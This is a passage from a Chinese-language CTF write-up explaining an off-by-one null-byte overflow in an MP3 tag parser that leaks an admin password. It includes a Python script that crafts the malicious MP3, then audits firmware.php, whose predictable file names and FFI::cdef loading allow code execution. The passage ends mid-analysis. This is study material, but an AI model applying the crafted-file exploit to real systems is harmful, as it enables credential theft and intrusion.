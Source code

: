 mframe_data存的是mem_mframe_data的指针，也就是9320嗷，如果正好是70个字节满的，拷贝过来的时候就会覆盖成9300,那么9300是啥呢。

![](https://wulasite.top/mdimage/de1ctf/mem_password.png)

是日思夜思的password的啊。这样parser返回的mem_mframe_data就从password开始了。

接下来构造一个这样的mp3

```python
// python2
from base64 import b64decode

preset_music = b64decode('SUQzBAAAAAABBFRSQ0sAAAADAAADMQBUSVQyAAAAEgAAA2JiYmJiYmJiYmJiYmJiYmIAVEFMQgAAABIAAANjY2NjY2NjY2NjY2NjY2NjAFRQRTEAAAASAAADYWFhYWFhYWFhYWFhYWFhYQA=')


# upload music [diff]
def upload_music():
    music = preset_music[:0x6] + '\x00\x00\x03\x00' + preset_music[0x0a:0x53]
    music += '\x00\x00\x03\x00' + '\x00\x00\x03' + 'a' * 0x70 + '\x00'
    with open('1.mp3', 'wb') as f:
        f.write(music)


upload_music()

```

![](https://wulasite.top/mdimage/de1ctf/mp3.png)

70个字节+\00，正好off by one(null)。接下来上传就可以看到admin密码了

![](https://wulasite.top/mdimage/de1ctf/admin_password.png)

然后访问#firmware

接下来审计一下firmware.php的源码，提取关键信息。

1. elf文件名是（伪）随机生成的

	```php
	mt_srand(time());
	$firmware_filename=md5(mt_rand().$_SERVER['REMOTE_ADDR']);    						
	$firmware_filename=__DIR__."/../uploads/firmware/".$firmware_filename.".elf";
	```

2. 会加载elf文件执行代码读取版本，等等，执行代码？

   ```php
   $elf = FFI::cdef("
   	extern char * version;
   	", $firmware_filename);
   $version=(string) FFI::string($elf->version);
   ```

   有个陌生的FFI:cdef是干啥的
